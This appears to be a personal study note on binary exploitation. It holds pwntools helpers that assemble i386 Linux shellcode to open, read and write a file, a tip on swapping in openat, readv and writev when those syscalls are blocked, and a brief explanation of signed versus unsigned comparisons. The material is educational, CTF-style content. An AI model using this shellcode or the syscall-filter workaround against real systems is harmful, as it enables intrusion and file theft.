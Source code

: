 This is registers to set to open, read or write to a file.


Open a file, 

## 32 bit open,read write
```
def openFile(filename):
    return '\n'.join([
        # getLittleEndian32(filename),
        pwnlib.shellcraft.i386.pushstr(filename),
        "mov ebx,esp",
        "xor ecx, ecx",
        "xor edx, edx",
        pwnlib.shellcraft.i386.linux.syscall('SYS_open'),
        ])


def readFile(count,fd="eax"):
    return '\n'.join([
        "sub esp, {}".format(count+5),
        "mov ebx, {}".format(fd),
        "mov ecx, esp",
        "mov edx, {}".format(count+5),
        pwnlib.shellcraft.i386.linux.syscall('SYS_read'),
        ])

def writeFile(count,pointerToString="esp"):
    return '\n'.join([
        "mov ecx,{}".format(pointerToString),
        shellcraft.i386.mov('edx', count).rstrip(),
        shellcraft.i386.mov('ebx', 1).rstrip(),
        shellcraft.i386.mov('eax', 4).rstrip(),
        "int 0x80"
        ])
```

## Alternatives to open read write

**openat, readv, and writev syscalls are the alternatives for open, read, and write syscalls, respectively, when the latter syscalls are blocked.**

# Signed/Unsigned

## Tracking Signedness

How does your program track signedness?

* Variable types are known at compile time, so signed instructions are compiled in to handle your variable. like using jbe(jump below equal) for unsigned comparison instead of (jle) for signed comparison.
    * what this means is when the program is compiled it will automatically use the assembly opcode jle when doing signed comparison, so its all known at compile time.
